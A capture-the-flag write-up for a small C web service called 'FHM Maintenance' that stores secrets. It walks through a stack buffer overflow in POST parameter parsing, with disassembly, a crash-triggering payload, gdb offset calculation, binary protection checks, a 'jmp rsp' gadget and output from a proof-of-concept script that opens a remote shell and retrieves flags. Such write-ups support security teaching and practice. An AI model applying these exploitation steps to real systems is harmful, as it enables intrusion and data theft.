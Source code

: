 # FHM Maintenance

## Description

> Password-protected web storage for secrets in C.

The provided description says it well, it's a web storage to store a secret.
This service created by team *M.I.S.T* is a **very** light HTTP server, so
light that I may even say it's a server which communicate using a HTTP-like
format.

You can:
- Get a static page
- Register a user with his secret
- Retrieve a secret

The access to this different functions is done through the HTTP method and
the URL:

| Action      | Method | URL        |
| ----------: | :----: | :--------- |
| Static page | GET    | /extern/\* |
| Get secret  | GET    | /intern    |
| Save secret | POST   | _*_        |


No need to develop the static page aspect as it's a basic HTTP behaviour.
However, saving and retrieving a secret must follow a specific scheme.

To register a secret, you must then send a POST request with all three
parameters `username`, `pass` and `secret`. **Note: `secret` must
not to be the last parameter, see** [vulnerabilities](#vulnerabilities).

To retrieve your secret, you must send a GET request with a HTTP basic
authentication header. Otherwise, you'll be asked to authenticate. Of course,
the credentials are the ones of the secret you want to get.

If you like web interfaces, you can start with `/extern/index.html` to perform
these actions easily.


### Flag

Flag Description:

> Flags are identified by the username.

The *flag* is the secret stored by the user *flag_id*.

For the technical aspect of the storage of the flags, it's very simple. Every
`username`, `pass` and `secret` are stored in a file under the
`rw/doc_root/htpass/` directory. The name of the file is the *url-safe base64*
encoding of the *SHA1* hash of the `username`. And the content of this file is:
```
username:{SHA}base64_of_sha1_of_pass
secret
```


## Vulnerabilities

As introduced in [description](#description), there is a strange behaviour when
`secret` is the last parameter of a POST request. We can just look at
the function which extract POST parameters (`get_post_credentials`):

```asm
|       |   0x004026d6      be74434000     mov esi, str.secret_        ; "secret=" @ 0x404374
|       |   0x004026db      4889ef         mov rdi, rbp
|       |   0x004026de      e89de8ffff     call sym.imp.strstr         ;[5]
|       |   0x004026e3      4885c0         test rax, rax
|      ,==< 0x004026e6      7438           je 0x402720                 ;[6]
|      ||   0x004026e8      80780726       cmp byte [rax + 7], 0x26    ; [0x26:1]=0 ; '&'
|      ||   0x004026ec      488d7007       lea rsi, [rax + 7]          ; 0x7
|     ,===< 0x004026f0      0f847c000000   je 0x402772                 ;[7]
|     |||   0x004026f6      4889f2         mov rdx, rsi
|     |||   0x004026f9      0f1f80000000.  nop dword [rax]
|    .----> 0x00402700      4883c201       add rdx, 1
|    ||||   0x00402704      803a26         cmp byte [rdx], 0x26        ; [0x26:1]=0 ; '&'
|    `====< 0x00402707      75f7           jne 0x402700                ;[8]
|     |||   0x00402709      4829f2         sub rdx, rsi
|     |||   0x0040270c      4883c408       add rsp, 8
|     |||   0x00402710      488dbb000100.  lea rdi, [rbx + 0x100]      ; 0x100
|     |||   0x00402717      5b             pop rbx
|     |||   0x00402718      5d             pop rbp
|     ||`=< 0x00402719      e972e9ffff     jmp sym.imp.memcpy          ;[4]
```

So to find the end of the parameter, the program only scans for the first `&`
character:
```asm
|    .----> 0x00402700      4883c201       add rdx, 1
|    ||||   0x00402704      803a26         cmp byte [rdx], 0x26        ; [0x26:1]=0 ; '&'
|    `====< 0x00402707      75f7           jne 0x402700                ;[8]
```

Neither the length is checked nor the end of the string. For `username` and
`pass` the length isn't checked neither, but the null character is.

We may then be able to overflow a buffer, but we must first study this buffer:

```
0             0x80            0x100           0x180
+---------------+---------------+---------------+
| username      | password      | secret        |
+---------------+---------------+---------------+
```

This buffer is located on the stack, in the stack frame of `buildBody`
function. It's exactly at address `rsp + 0x30` and the function prolog is:
```asm
mov r15, rsi
mov esi, 2
push r14
push r13
push r12
mov r12, rdi
push rbp
push rbx
sub rsp, 0x1b8
```

We may definitely be able control the flow of execution easily but first let be
sure the vulnerability really exists:
``` bash
$ python -c 'print "POST /test HTTP/1.0\r\n\r\nusername=test_user&secret="+"A"*0x100+"&pass=test_user\r\n";' | ../ro/FHM-Maintenance 
Segmentation fault
```

Then to find the exact amount of data to override to reach the return address,
we can just use **gdb**. First we'll generate the data to send:
```bash
python -c 'print "POST /test HTTP/1.0\r\n\r\nusername=test_user&secret=" + "".join([chr(i) for i in range(48,256)]) + "&pass=test_user\r\n"' > find_stack_length
```

Then in **gdb** we just have to run the program and inspect the stack:
```
gdb$ run < find_stack_length

Program received signal SIGSEGV, Segmentation fault.

gdb$ x/4w $rsp
0x7fffffffe008: 0xebeae9e8  0xefeeedec  0xf3f2f1f0  0xf7f6f5f4
```

To override the return address we then must write `0xf0 - 0x30 = 0xc0` bytes.


## Proof of Concept

Now that we can control the stack, we can look at the possible exploitation
options:
```
pic      false
canary   false
nx       false
bintype  elf
class    ELF64
arch     x86
bits     64
os       linux
endian   little
static   false
```

The binary is then:
  - a 64 bits ELF (but we already knew that)
  - dynamically linked
  - not position-independant (PIC/PIE)
  - not using canaries (hopefully as we want to use buffer overflows)
  - using a executable stack

As the binary isn't PIE, we can use ROP, but we may not find lots of gadgets
because of the dynamic linker. However here is one of the available gadgets:
```
0x00000000004027d9 : jmp rsp ; ret
```

In addtion the stack is executable, so we can do anything we want: opening a
shell, retrieving a file or anything else. We just need to append the
modified return address with the shellcode we want. However, while usual
shellcode must not to include null bytes, here we just need to have no `&`
characters. But doing so isn't more complicated than avoiding null bytes.
(*Note:* `0x26` is not a valid opcode in amd64)

The [PoC script][poc] can use the two first payloads: opening a shell and 
getting the flag by retrieving a file:
```bash
poc.py shell <ip> <port>
poc.py retrieve <ip> <port> <flag_id>
```

It crafts the shellcode based on **pwntools** library, but it could have been
done manually.

```bash
$ ./poc.py retrieve 192.168.56.101 20111 3977506951
FLG6KjytBw8ql5pl
```

```bash
./poc.py shell 192.168.56.101 20111
$ ls doc_root/extern
done.html
images
index.html
register.html
style.css
$ exit
```


[poc]: poc.py
